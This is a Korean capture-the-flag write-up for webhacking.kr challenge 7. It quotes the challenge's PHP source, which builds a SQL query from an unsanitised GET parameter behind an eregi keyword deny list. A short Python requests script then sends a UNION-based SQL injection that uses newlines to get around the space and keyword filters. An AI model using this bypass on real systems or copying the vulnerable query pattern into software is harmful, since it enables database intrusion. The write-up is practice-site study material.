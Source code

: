 ================================================================================================================
[webhacking.kr] 07
================================================================================================================

.. uml::
	
	@startuml

	start

    :Source analysis;

    :eregi 함수 우회;
    
	stop

	@enduml

|

Source analysis
================================================================================================================

입력 부분: $_GET[val]

출력 부분: @solve();

.. code-block:: php
    
    <html>
    <head>
    <title>Challenge 7</title>
    </head>
    <body>
    <!--
    db에는 val=2가 존재하지 않습니다.
    union을 이용하세요
    -->
    <?
    $answer = "????";

    $go=$_GET[val];

    if(!$go) { 
        echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }

    $ck=$go;

    $ck=str_replace("*","",$ck);
    $ck=str_replace("/","",$ck);

    echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");

    if(eregi("--|2|50|\+|substring|from|infor|mation|lv|%20|=|!|<>|sysM|and|or|table|column",$ck)) 
        exit("Access Denied!");

    if(eregi(' ',$ck)) { 
        echo('cannot use space'); 
        exit(); }

    $rand=rand(1,5);
    if($rand==1)
    {
        $result=@mysql_query("select lv from lv1 where lv=($go)") or die("nice try!");
    }
    if($rand==2)
    {
        $result=@mysql_query("select lv from lv1 where lv=(($go))") or die("nice try!");
    }
    if($rand==3)
    {
        $result=@mysql_query("select lv from lv1 where lv=((($go)))") or die("nice try!");
    }
    if($rand==4)
    {
        $result=@mysql_query("select lv from lv1 where lv=(((($go))))") or die("nice try!");
    }
    if($rand==5)
    {
        $result=@mysql_query("select lv from lv1 where lv=((((($go)))))") or die("nice try!");
    }

    $data=mysql_fetch_array($result);
    if(!$data[0]){ 
        echo("query error");
        exit(); }
    if($data[0]!=1 && $data[0]!=2) { 
        exit(); }
    if($data[0]==1)
    {
        echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=
        alert('Access_Denied!')><p>");
        echo("<!-- admin mode : val=2 -->");
    }
    if($data[0]==2)
    {
        echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=
        alert('Congratulation')><p>");
        @solve();
    } 
    </body>
    </html>

|

eregi 함수 우회
================================================================================================================

입력 부분이 $_GET[val]이고, 해당 입력값에 상관없이 랜덤하게 쿼리가 실행되는 것을 볼 수 있다.
eregi로 필터링되는 함수를 제외하여 rand가 1일 때 실행할 수 있는 쿼리문을 작성해보자.

.. code-block:: sql

    select lv from lv1 where lv=($_GET[val])

해당 소스 코드로 계속해서 request를 날리면 해결할 수 있다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-07/index.php?val="+"1)%0aunion%0aselect%0a3-1%23)"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    
    r = requests.get(url, cookies = cookies, verify=False)

    print r.content
